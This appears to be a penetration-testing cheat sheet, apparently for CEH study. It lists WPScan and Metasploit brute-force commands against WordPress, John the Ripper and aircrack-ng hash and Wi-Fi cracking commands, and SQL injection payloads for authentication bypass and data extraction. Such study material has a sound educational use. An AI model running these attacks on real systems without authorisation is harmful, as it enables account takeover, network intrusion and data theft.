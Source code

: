 ### WordPress Attacks
```bash
# WPScan enumeration
wpscan --url http://192.168.0.X:8080/CEH -U Sarah -P rockyou.txt

# Metasploit WordPress login
msfconsole
use auxiliary/scanner/http/wordpress_login_enum
set RHOSTS 192.168.0.X
set USERNAME Sarah
set PASS_FILE /usr/share/wordlists/rockyou.txt
run
```

### Hash Cracking
```bash
# John the Ripper
john hashes.txt --format=raw-md5 --wordlist=rockyou.txt

# Online resources
# https://crackstation.net/
# https://hashes.com/en/decrypt/hash
```

## 📡 Wireless Attacks

### WPA2 Handshake Cracking
```bash
# Analyze capture file
aircrack-ng handshake.pcap

# Crack with wordlist
aircrack-ng -w rockyou.txt -b AA:BB:CC:DD:EE:FF handshake.pcap
```

### WEP Cracking
```bash
aircrack-ng wep_capture.pcap
```

## 🔓 SQL Injection

### Manual Testing
```sql
-- Basic authentication bypass
' OR '1'='1' --
' OR 1=1 --

-- Union-based
' UNION SELECT 1,2,3 --

-- Error-based
' AND 1=CAST((SELECT table_name FROM information_schema.tables) AS INT) --
```
